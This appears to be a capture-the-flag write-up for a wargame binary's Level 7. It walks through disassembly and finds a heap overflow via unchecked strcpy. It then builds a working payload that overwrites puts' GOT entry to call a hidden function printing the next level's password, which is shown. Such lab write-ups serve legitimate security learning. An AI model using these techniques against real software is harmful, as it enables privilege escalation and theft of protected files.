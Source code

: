 # Level 7

## What we have

```bash
GCC stack protector support:            Enabled
Strict user copy checks:                Disabled
Restrict /dev/mem access:               Enabled
Restrict /dev/kmem access:              Enabled
grsecurity / PaX: No GRKERNSEC
Kernel Heap Hardening: No KERNHEAP
System-wide ASLR (kernel.randomize_va_space): Off (Setting: 0)
RELRO           STACK CANARY      NX            PIE             RPATH      RUNPATH      FILE
No RELRO        No canary found   NX disabled   No PIE          No RPATH   No RUNPATH   /home/user/level7/level7
```

## Testing the program

```bash
$ ./level7 
Segmentation fault (core dumped)

$ ./level7 hello
Segmentation fault (core dumped)

$ ./level7 hello you
~~

$ ./level7 hello to you
~~

$ ./level7 good day to you
~~
```

We have a program which takes at least two arguments and segfaults if otherwise.

## Learning more

```bash
(gdb) disas main
Dump of assembler code for function main:
   0x08048521 <+0>:	push   %ebp
   0x08048522 <+1>:	mov    %esp,%ebp
   0x08048524 <+3>:	and    $0xfffffff0,%esp
   0x08048527 <+6>:	sub    $0x20,%esp
   0x0804852a <+9>:	movl   $0x8,(%esp)
   0x08048531 <+16>:	call   0x80483f0 <malloc@plt>
   0x08048536 <+21>:	mov    %eax,0x1c(%esp)
   0x0804853a <+25>:	mov    0x1c(%esp),%eax
   0x0804853e <+29>:	movl   $0x1,(%eax)
   0x08048544 <+35>:	movl   $0x8,(%esp)
   0x0804854b <+42>:	call   0x80483f0 <malloc@plt>
   0x08048550 <+47>:	mov    %eax,%edx
   0x08048552 <+49>:	mov    0x1c(%esp),%eax
   0x08048556 <+53>:	mov    %edx,0x4(%eax)
   0x08048559 <+56>:	movl   $0x8,(%esp)
   0x08048560 <+63>:	call   0x80483f0 <malloc@plt>
   0x08048565 <+68>:	mov    %eax,0x18(%esp)
   0x08048569 <+72>:	mov    0x18(%esp),%eax
   0x0804856d <+76>:	movl   $0x2,(%eax)
   0x08048573 <+82>:	movl   $0x8,(%esp)
   0x0804857a <+89>:	call   0x80483f0 <malloc@plt>
   0x0804857f <+94>:	mov    %eax,%edx
   0x08048581 <+96>:	mov    0x18(%esp),%eax
   0x08048585 <+100>:	mov    %edx,0x4(%eax)
   0x08048588 <+103>:	mov    0xc(%ebp),%eax
   0x0804858b <+106>:	add    $0x4,%eax
   0x0804858e <+109>:	mov    (%eax),%eax
   0x08048590 <+111>:	mov    %eax,%edx
   0x08048592 <+113>:	mov    0x1c(%esp),%eax
   0x08048596 <+117>:	mov    0x4(%eax),%eax
   0x08048599 <+120>:	mov    %edx,0x4(%esp)
   0x0804859d <+124>:	mov    %eax,(%esp)
   0x080485a0 <+127>:	call   0x80483e0 <strcpy@plt>
   0x080485a5 <+132>:	mov    0xc(%ebp),%eax
   0x080485a8 <+135>:	add    $0x8,%eax
   0x080485ab <+138>:	mov    (%eax),%eax
   0x080485ad <+140>:	mov    %eax,%edx
   0x080485af <+142>:	mov    0x18(%esp),%eax
   0x080485b3 <+146>:	mov    0x4(%eax),%eax
   0x080485b6 <+149>:	mov    %edx,0x4(%esp)
   0x080485ba <+153>:	mov    %eax,(%esp)
   0x080485bd <+156>:	call   0x80483e0 <strcpy@plt>
   0x080485c2 <+161>:	mov    $0x80486e9,%edx
   0x080485c7 <+166>:	mov    $0x80486eb,%eax
   0x080485cc <+171>:	mov    %edx,0x4(%esp)
   0x080485d0 <+175>:	mov    %eax,(%esp)
   0x080485d3 <+178>:	call   0x8048430 <fopen@plt>
   0x080485d8 <+183>:	mov    %eax,0x8(%esp)
   0x080485dc <+187>:	movl   $0x44,0x4(%esp)
   0x080485e4 <+195>:	movl   $0x8049960,(%esp)
   0x080485eb <+202>:	call   0x80483c0 <fgets@plt>
   0x080485f0 <+207>:	movl   $0x8048703,(%esp)
   0x080485f7 <+214>:	call   0x8048400 <puts@plt>
   0x080485fc <+219>:	mov    $0x0,%eax
   0x08048601 <+224>:	leave  
   0x08048602 <+225>:	ret    
End of assembler dump.
(gdb) 
```

Juste before the call to fopen we have this 

```bash 
(gdb) x/s 0x80486e9
0x80486e9:	 "r"
(gdb) x/s 0x80486eb
0x80486eb:	 "/home/user/level8/.pass"
(gdb) 

```

Our observations : 
```plaintext
    • The program allocates twice with malloc for each argv[1] && argv[2].
    • It uses strcpy() twice to copy the arguments from the command line
    • There is an fopen("/home/user/level8/.pass", "r"), then read the file with fgets() into a global variable called c. 
    • Then it does a puts() with the '~~' but not the content of the file.
```


## Hidden M function

```bash
(gdb) info functions
[...]
0x080484f4  m
0x08048521  main
(gdb) 
```

We see that there is an uncalled m function. 

```bash
(gdb) disas m
Dump of assembler code for function m:
   0x080484f4 <+0>:	push   %ebp
   0x080484f5 <+1>:	mov    %esp,%ebp
   0x080484f7 <+3>:	sub    $0x18,%esp
   0x080484fa <+6>:	movl   $0x0,(%esp)
   0x08048501 <+13>:	call   0x80483d0 <time@plt>
   0x08048506 <+18>:	mov    $0x80486e0,%edx
   0x0804850b <+23>:	mov    %eax,0x8(%esp)
   0x0804850f <+27>:	movl   $0x8049960,0x4(%esp)
   0x08048517 <+35>:	mov    %edx,(%esp)
   0x0804851a <+38>:	call   0x80483b0 <printf@plt>
   0x0804851f <+43>:	leave  
   0x08048520 <+44>:	ret    
End of assembler dump.
(gdb) 
```

```bash
$ x/s 0x8049960
0x8049960 <c>:	 ""
```

The m function : 

```plaintext
    • Displays the current time with time()
    • Displays the content of the global variable c, which contains the content of the .pass file 
```


## Getting acces to the pass 

Our goal is going to be to call the m() function so that it displays the c global variable and therefore the .pass file. 

1. Using strcpy

The program calls strcpy() twice, once with the content of argv[1] and once with argv[2], since it doesn't check the size we are going to use that to redirect to the m() function.

2. GOT overwrite

Like in a previous level, we know that puts is called and is found thanks to the GOT. 

```bash
$ info function puts
0x08048400  puts@plt
(gdb) x/i 0x08048400
0x8048400 <puts@plt>:	jmp    *0x8049928
```

We want to replace the puts address which is 0x8049928 by m's address which is 0x080484f4. 

3. Finding the offset 

```bash
ltrace ./level7 Aa0Aa1Aa2Aa3Aa4Aa5Aa6Aa7Aa8Aa9Ab0Ab1Ab2Ab3Ab4Ab5Ab
__libc_start_main(0x8048521, 2, 0xbffff7b4, 0x8048610, 0x8048680 <unfinished ...>
malloc(8)                                                                           = 0x0804a008
malloc(8)                                                                           = 0x0804a018
malloc(8)                                                                           = 0x0804a028
malloc(8)                                                                           = 0x0804a038
strcpy(0x0804a018, "Aa0Aa1Aa2Aa3Aa4Aa5Aa6Aa7Aa8Aa9Ab"...)                           = 0x0804a018
strcpy(0x37614136, NULL <unfinished ...>
--- SIGSEGV (Segmentation fault) ---
+++ killed by SIGSEGV +++
```

Again using the pattern generator we found that this address, 0x37614136, corresponds to an offset of 20. 


4. Building the payload


```plaintext
    • 1st argument - Writes until reaching the GOT entry of puts
        • 20 chars ("a" * 20)
        • puts address in GOT -> 0x8049928 --> \x28\x99\x04\x08
    • 2nd agument - Overwrite puts address so that it points to m()
        • m()'s function address --> 0x080484f4 --> \xf4\x84\x04\x08
```


```bash
$ ./level7 $(python -c 'print "a"*20+"\x28\x99\x04\x08"') $(python -c 'print "\xf4\x84\x04\x08"')
5684af5cb4c8679958be4abe6373147ab52d95768e047820bf382e44fa8d8fb9
 - 1753975972
```